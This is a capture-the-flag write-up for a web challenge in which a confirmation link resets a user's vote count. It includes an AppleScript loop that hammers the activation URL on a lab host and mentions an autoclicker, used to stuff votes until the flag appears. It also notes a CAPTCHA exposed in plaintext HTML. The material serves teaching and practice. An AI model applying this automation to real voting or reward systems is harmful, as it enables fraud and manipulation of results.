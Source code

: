 # Voting!!!
###### 400 Points

### Problem
When Uncle Stan decides to run for mayor, Dipper and Mabel had to deal with the transformation of his hapless uncle in this candidate. But anyone can enter the pre-election headquarters, just also need to get some votes... [Link to voting page]

### Description
Clicking the link brings us to a simple voter login page, obvisously we don't have an account yet so we register for one. Registration asks for a username, password, email, and a CAPTCHA. Looking at the source, we can see the captcha contents are stored in plaintext in the HTML, interesting. At this point we create an account and click the email confirmation link, and login. We have one vote, if we don't vote for anyone that vote is retained. Another important observation is that clicking the cofirmation link resets the # of votes to one. 

Using this fact to craft a script that automatically spams the confirmation link. This is an obscure and terrible scripting language on macs called 'AppleScript', I'm sorry.

```AppleScript
to goToWebPage(theWebPage)
tell application "Safari"
activate
set URL of document 1 to theWebPage
end tell
end goToWebPage

to closeWebPage(thePageName)
tell application "Safari"
repeat with t in tabs of windows
tell t
if name starts with thePageName then close
end tell
end repeat
end tell
end closeWebPage

repeat
goToWebPage("http://10.0.1.123:8888/voting/activate?token=%242b%2412%24dTwbV8DS.0cCi0gQXXmG..1zbv7VJ.9V53Z9IUnPhdSMM.hf5101C&user=z1")
delay 0.5
closeWebPage("Login page")
end repeat
```
In another tab I setup an [autoclicking bot](http://www.murgaa.com/auto-clicker-mac/) pointed at our user profile. After about five minutes of AFK we had collected about 250 points. Logging into the user profile gave us the flag: **:(**
